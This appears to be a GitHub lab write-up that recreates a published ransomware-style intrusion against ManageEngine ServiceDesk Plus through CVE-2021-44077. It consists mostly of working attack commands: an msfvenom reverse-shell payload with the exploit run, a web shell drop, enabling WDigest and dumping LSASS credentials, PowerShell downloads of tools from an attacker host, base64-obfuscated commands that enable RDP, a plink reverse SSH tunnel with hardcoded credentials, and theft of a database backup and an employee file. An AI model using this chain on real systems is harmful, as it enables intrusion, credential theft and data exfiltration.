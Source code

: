 
# Sketching an attack based on "[Will the Real Msiexec Please Stand Up? Exploit Leads to Data Exfiltration](https://thedfirreport.com/2022/06/06/will-the-real-msiexec-please-stand-up-exploit-leads-to-data-exfiltration/)" Report

## 1. Hands On Action: Exploiting [CVE-2021-44077](https://nvd.nist.gov/vuln/detail/CVE-2021-44077) Vulnerability based on POC in [GitHub](https://github.com/horizon3ai/CVE-2021-44077)

a. Based on the [POC](https://github.com/horizon3ai/CVE-2021-44077) msiexec.exe is created through `msfvenom`

```
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.20.134 LPORT=4444 -f exe > msiexec.exe
```

b. run your listener

```
nc -l 4444
```

c. run the exploit script

```
python3 exploit.py http://192.168.20.135:8080/ msiexec.exe
```

![CVE-Exploitation-Success](CVE-Exploitation-Success.png)

#### But this approach isn't the same as the report, as in the report the Threat Actor dropped a web shell JSP file `jm2.jsp` and then accessed it.

![image](https://github.com/user-attachments/assets/16c25295-6f5a-465d-96b4-da499027becb)

#### So, I wrote a simple Python script that, when executed a `wbsh.jsp` is created a the `\custom\login` directory

![image](https://github.com/user-attachments/assets/a0525bc4-dc65-4c9b-9856-110ae5456b23)


#### then used `pyinstaller` to convert it to an executable exe file

![image](https://github.com/user-attachments/assets/cb7515a7-7eb1-49a0-b72d-5a3e834b0348)

#### now we have `msiexec.exe`, let's use the exploit again

![image](https://github.com/user-attachments/assets/8b473af9-46a4-4f89-9278-ff2b2c1b54b7)

#### It Worked !!

![wbsh](https://github.com/user-attachments/assets/4c83acaf-d287-4330-9b7c-34514170a965)

![image](https://github.com/user-attachments/assets/55a6b0e8-78cf-46d7-ae3f-91f68353e9b8)

#### No Need for Privilege Escalation

![image](https://github.com/user-attachments/assets/78176ea2-9843-480b-984c-b65e5ce7de80)

<hr />

### 2. Next step we are enabling wdigest then dumping LSASS then downloading it

a. is WDigest Enabled?

```
reg query HKLM\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest /v UseLogonCredential
```

![image](https://github.com/user-attachments/assets/b6029281-dae5-4253-a7c5-8d4365bcc295)


b. Let's Enable it

```
Set-ItemProperty -Force -Path  'HKLM:\SYSTEM\CurrentControlSet\Control\SecurityProviders\WDigest' -Name  'UseLogonCredential' -Value '1'
```

![image](https://github.com/user-attachments/assets/ac6e01e2-ab72-4ba4-928b-4a2ead73f624)


c. Now we have clear plaintext passwords stored in `LSASS`
```
tasklist | findstr "lsass" 
```

![image](https://github.com/user-attachments/assets/58db05a4-2da0-4d51-8bdf-9671eb584c94)

d. Let's dump it
```
C:\Windows\System32\rundll32.exe C:\Windows\System32\comsvcs.dll MiniDump, 668 C:\Windows\Temp\logctl.zip full
```

e. Download it

![image](https://github.com/user-attachments/assets/6994c404-8d93-42f3-ae33-89e6cc34c703)

f. after downloading the logctl.zip file, i'ts empty , which was weird and tried multiple ways and every time when i dump it, its empty so i had to use `procdump.exe`, i will be adding this to the lab for more fun

![image](https://github.com/user-attachments/assets/ab124bb5-bdf1-4a87-aaa8-0b53bb3d2869)

g. Download `procdump.exe`

```
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.2:9000/file2.exe', 'C:\windows\temp\calc.exe')
```

h. Use `procdump.exe`
```
C:\windows\temp\calc.exe -accepteula -ma 668 C:\Windows\Temp\logct2.dmp
```

![image](https://github.com/user-attachments/assets/78153249-ea74-4777-8430-05dc64c8c04a)

j. Download it

![image](https://github.com/user-attachments/assets/e3649426-ec9b-4fd8-a3e3-0a0ce7b1acd6)

<hr />

### 3. now we have the dump, we will skip the process of fetching the passwords for now, Lets Go to the next step where the attacker starts tunneling RDP connections over SSH

a. First, we will download `plink.exe` as `ekern.exe`
```
powershell.exe (New-Object System.Net.WebClient).DownloadFile('http://192.168.1.2:9000/file.exe', 'C:\windows\temp\ekern.exe')
```

b. By default, RDP is Disabled. Let's check first
```
Get-Service -Name TermService
```

![image](https://github.com/user-attachments/assets/2c8d0804-16c5-4961-9e13-6179a61d723d)

c. Enable RDP, but let's base64 encode this and put it in one-line command

```
Set-Service -Name TermService -StartupType Automatic
Start-Service -Name TermService
Set-ItemProperty -Path 'HKLM:\System\CurrentControlSet\Control\Terminal Server\' -Name 'fDenyTSConnections' -Value 0
```

d. Encoded:

```
powershel.exe -Command "& {[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String('U2V0LVNlcnZpY2UgLU5hbWUgVGVybVNlcnZpY2UgLVN0YXJ0dXBUeXBlIEF1dG9tYXRpYw0KDQpTdGFydC1TZXJ2aWNlIC1OYW1lIFRlcm1TZXJ2aWNlDQoNClNldC1JdGVtUHJvcGVydHkgLVBhdGggJ0hLTE06XFN5c3RlbVxDdXJyZW50Q29udHJvbFNldFxDb250cm9sXFRlcm1pbmFsIFNlcnZlclwnIC1OYW1lICdmRGVueVRTQ29ubmVjdGlvbnMnIC1WYWx1ZSAw')) | Invoke-Expression}"
```

e. Run the encoded command and let's checkout

```
Get-Service -Name TermService
```

![image](https://github.com/user-attachments/assets/272a554b-5da5-4103-8ec0-18ee4424299e)


f. Download Bitvise SSH Server `192.168.1.2` and Configure credentials

```
username: H@ck3r
password: C@nt_D3f3nd_2021-44077
```

g. Let's write the FXS.bat file to run `ekern.exe` and establish a reverse SSH Connection to RDP

```
echo y|C:\Users\Temp\ekern.exe -ssh -P 443 -l H@ck3r -pw C@nt_D3f3nd_2021-44077 -R 127.0.0.1:49800:192.168.20.150:3389 192.168.1.2
```

h. Another base64? No need to download it

```
powershel.exe -Command "& {[Text.Encoding]::UTF8.GetString([Convert]::FromBase64String('JGJhdGNoQ29udGVudCA9ICdlY2hvIHl8QzpcV2luZG93c1xUZW1wXGVrZXJuLmV4ZSAtc3NoIC1QIDQ0MyAtbCBIQGNrM3IgLXB3IENAbnRfRDNmM25kXzIwMjEtNDQwNzcgLVIgMTI3LjAuMC4xOjQ5ODAwOjE5Mi4xNjguMjAuMTQ1OjMzODkgMTkyLjE2OC4xLjInDQokYmF0Y2hGaWxlUGF0aCA9ICdDOlxVc2Vyc1xWaWN0aW1cRG9jdW1lbnRzXEZYUy5iYXQnDQpTZXQtQ29udGVudCAtUGF0aCAkYmF0Y2hGaWxlUGF0aCAtVmFsdWUgJGJhdGNoQ29udGVudA==')) | Invoke-Expression}"
```

![image](https://github.com/user-attachments/assets/4f85fa3e-6cb0-48be-bc14-597ab146778a)

j. Let's run our batch...

![image](https://github.com/user-attachments/assets/f149d6b7-6b3e-475f-b867-376a98ef18ba)

k. Now It's RDP time

![image](https://github.com/user-attachments/assets/0f083225-b204-4e26-ab6a-89b6193da53f)

![image](https://github.com/user-attachments/assets/2f3579f5-3be2-40be-bad0-cba283211a7d)

it WORKED !!
![image](https://github.com/user-attachments/assets/fbd3d1af-1541-41de-a2a3-23cb1f28a86c)

<hr />

### 4. Stealing Some Data
a. Download postgres DB backup of the ManageEngine ServiceDesk Plus application it's located at `C:\Program Files (x86)\ManageEngine\ServiceDesk\backup\backup_postgres_11303_fullbackup_07_19_2024_20_07\`

![image](https://github.com/user-attachments/assets/07a1e62a-f55e-49b8-ac4d-1dfe56e59476)

b. there is a file named `Employees.xls` located on the Desktop let's see it 

![image](https://github.com/user-attachments/assets/4bf04d98-3165-41a8-8dea-4dbd01abac1d)

<hr />

## Conclusion

We started exploiting [CVE-2021-44077](https://nvd.nist.gov/vuln/detail/CVE-2021-44077) Vulnerability based on POC in [GitHub](https://github.com/horizon3ai/CVE-2021-44077) then a wbsh.jsp file was dropped, and by using it we gained a web shell and after little enummuration we started to dump LSASS after enabling WDigest to allow passwords to be stored in plaintext format. 

Then we have downloaded ekern.exe which was a renamed version of [Plink](https://the.earth.li/~sgtatham/putty/0.58/htmldoc/Chapter7.html), and wrote a batch script `FXS.bat` to establish a reverse SSH connection to tunnel RDP connections over it. After that we stole some confedintial data like `backup_postgres_11303_fullbackup_07_19_2024_20_07_part_1.data` and `Employees.xls`.

> THIS WAS FUN !!

